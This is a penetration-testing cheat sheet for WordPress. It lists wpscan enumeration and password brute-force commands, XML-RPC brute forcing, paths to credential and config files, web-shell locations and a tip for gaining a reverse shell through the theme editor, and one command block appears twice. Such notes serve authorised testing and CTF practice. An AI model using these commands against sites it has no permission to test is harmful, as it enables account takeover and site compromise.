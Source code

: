 # Wordpress 

Checklist:
- Login page
- `robot.txt`
- `/var/www/html/wp-config.php` contain credentials
- Enumerate users with `-u` with wpscan

## WPscan

[Free 25 API requests per day](https://wpscan.com/pricing)

```bash
wpscan --url $url -e --api-token $APIKEY # -o filename
# optional - all plugins, themes, plus timthumbs
# vp,vt,tt,cb,dbe,u,m
ap at t tt dbe u m cb

wpscan --url $url --api-token $APIKEY -U admin -P /usr/share/wordlists/rockyou.txt
```

## Haax's Trick

```bash
# Username can be guessed on WordPress since the username will generate a different error message if it doesn't exist.

# Interesting files
https://monsite.com/robots.txt
https://monsite.com/feed
https://monsite.com/readme.html
https://monsite.com/xmlrpc.php

# Configuration files
https://monsite.com/.htaccess
https://monsite.com/wp-config.php

# Directory listing
https://monsite.com/wp-includes

# XML-RPC attack (https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit)
# You can bruteforce users
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1

# If by any way you can upload files, go check /upload or /uploads for your files

# Get WPEngine's config file
/_wpeprivate/config.json
```

## Scanning and Enumeration 

```bash
# Username can be guessed on WordPress since the username will generate a different error message if it doesn't exist.

# Interesting files
https://monsite.com/robots.txt
https://monsite.com/feed
https://monsite.com/readme.html
https://monsite.com/xmlrpc.php

# Configuration files
https://monsite.com/.htaccess
https://monsite.com/wp-config.php

# Directory listing
https://monsite.com/wp-includes

# XML-RPC attack (https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit)
# You can bruteforce users
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1

# If by any way you can upload files, go check /upload or /uploads for your files

# Get WPEngine's config file
/_wpeprivate/config.json
```

## Directory  Busting 
Seclist wordlists
```
Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt/
Discovery/Web-Content/CMS/wordpress.fuzz.txt
Passwords/Honeypot-Captures/wordpress-attacks-july2014.txt
```

## Shells
Seclists
```
/usr/share/seclists/Web-Shells/WordPress
```

## Reverse Shells

```
# You can reverse shell by editing templates (404.php, footer.php...)
# Theme Editor use a 404 template as it won't break the site.
# Plugin Editor  then go to /wp-content/plugins/<pluginname.php>
```

## Hashes
```bash
# Hashcat Hashmode = 400
```


## References

[haax.fr](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/)